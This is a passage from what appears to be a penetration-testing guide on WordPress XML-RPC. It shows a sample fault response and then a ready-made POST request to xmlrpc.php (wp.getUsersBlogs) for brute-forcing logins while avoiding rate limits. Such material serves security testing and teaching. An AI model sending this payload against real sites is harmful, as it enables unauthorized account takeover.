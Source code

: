 **RESPONSE:**

```
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 21:53:56 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Connection: close
Vary: Accept-Encoding
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 370
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>0</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string></string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

### Brute force attacks

Sometimes the only way to bypass request limiting or blocking in a brute force attack against WordPress site is to use the all too forgotten `XML-RPC API`.
The following request represents the most common brute force attack:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 235

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
